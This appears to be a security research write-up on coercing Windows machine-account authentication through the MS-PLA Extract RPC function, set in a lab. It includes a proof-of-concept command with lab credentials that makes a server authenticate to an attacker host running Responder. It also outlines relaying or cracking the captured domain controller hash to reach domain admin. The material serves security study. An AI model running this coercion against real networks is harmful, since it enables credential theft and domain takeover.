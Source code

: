 # MS-PLA - Remote call to Extract (opnum 31)

## Summary

+ **Protocol**: [[MS-PLA]: Performance Logs and Alerts Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700)

+ **Protocol UUID**: 03837520-098b-11d8-9414-505054503030

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`Extract`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/e0fbbb46-286e-4d68-bd3b-a84238f80e1a)

+ **Function operation number**: `31`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PLA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700) protocol (with uuid `03837520-098b-11d8-9414-505054503030` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-PLA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PLA]: Performance Logs and Alerts Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700) and allows to call RPC functions of this protocol. We will then call the remote [`Extract`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/e0fbbb46-286e-4d68-bd3b-a84238f80e1a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
Extract('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT Extract(
   [in] BSTR CabFilename,
   [in] BSTR DestinationPath
 );
```

## References

+ Documentation of protocol [MS-PLA]: Performance Logs and Alerts Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/d752a77f-442f-4e38-8a40-4b5258e83700

+ Documentation of function `Extract`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pla/e0fbbb46-286e-4d68-bd3b-a84238f80e1a